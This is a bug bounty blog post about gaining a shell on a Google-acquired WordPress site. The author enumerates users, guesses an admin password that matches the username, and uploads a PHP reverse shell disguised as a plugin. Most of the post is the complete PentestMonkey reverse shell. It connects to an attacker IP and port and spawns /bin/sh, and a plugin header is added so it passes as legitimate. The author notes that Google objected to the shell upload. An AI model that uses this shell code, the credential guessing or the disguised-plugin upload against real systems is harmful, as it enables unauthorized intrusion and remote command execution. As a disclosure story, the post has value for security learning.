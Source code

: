```yaml
---
author: AnirudhAnand
layout: post
title: How I got a shell on Google Acquisition ?
categories:
- bugbounty
summary: Getting a shell on Google Acquisition.
---
```

Getting a place on [Google hall of fame](https://www.google.com/about/appsecurity/hall-of-fame/archive/){:target="_blank"} is a milestone for any bug bounty hunter. With this in mind, I started reading Google's Vulnerability Reward Program and noticed that all the Google Acquisitions are a part of the program once it passes 6 months mark. So I decided to read more about recent Google Acquisition. Wikipedia has an aswesome page which contains an entire list of the [companies acquired by Google](https://en.wikipedia.org/wiki/List_of_mergers_and_acquisitions_by_Google){:target="_blank"}. I decided to check the companies which were acquired in 2014 so that I was assured it is eligible for the bounty program.

After some reconnaisance, I decided to fix my target on `songza.com` which was acquired by Google in July 2014. When I visited the website, I got redirected to `daily.songza.com` which was running on Wordpress 3.8.1. The Wordpress version 3.8.1 itself has several vulnerabilities (latest version is 4.4.2 at the time of writing) but I was not interested in those. I decided to enumerate the Wordpress users available so that I can try logging in with them using common passwords.

After the enumeration, I saw that the site has 9 users. I manually tried logging in with some common password formats. One of them turned out to be correct and I got logged in ! I couldn't believe my eyes at first but the logged in user was an Administrator. One of the usernames among the enumerated one was `Michael` and his password was nothing but his username (`Michael`) itself !

So, now I got the admin panel of the site. Now I had 2 options:

1. Report this to Google now along with its after effects or
2. Upload a **PHP shell** as a valid Wordpress plugin and use it to achieve command execution !

I believe that by now you would have guessed which option I would have chosen. So I quickly searched for a PHP reverse shell and got one:

[Original Author: PentestMonkey](http://pentestmonkey.net/tools/php-reverse-shell){:target="_blank"}

{% highlight php lineos %}

set_time_limit (0);
$VERSION = "1.0";
$ip = 'xxx.xxx.xxx.xxx';  // CHANGE THIS
$port = 8080;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$stringn";
	}
}

?> 

{% endhighlight %}

Now I added some comments to the top of the page so that the shell will truly look like a Wordpress plugin with Author information.

```
/*
*     Plugin Name: Shell
*     Plugin URI: https://blog.0daylabs.com
*     Author: a0xnirudh
*     Version: 1.0
*     Author URI: https://blog.0daylabs.com
*                             
*/
```

After this, I zipped the PHP shell and uploaded the plugin. The moment I clicked on `Activate plugin` on the dashboard, I got a reverse shell back to my server. I can now execute commands on a Google Acquisition !! :O

I reported this to Google but they were not happy since I uploaded a shell. Now they have to involve the Incident response team to secure the server back. They also warned me that **uploading shells** was against their policy but since it was my first bug report, they didn't disqualify it. 

Next time when you get a vulnerability using which you are sure that you can upload a shell, **better stop it there and report** (I know how hard it is to stop there but just report it and let it go or else you might get disqualified) !

Google payed me $1337 for this report and listed my name on their [Security Hall of Fame](https://www.google.com/about/appsecurity/hall-of-fame/archive/). 
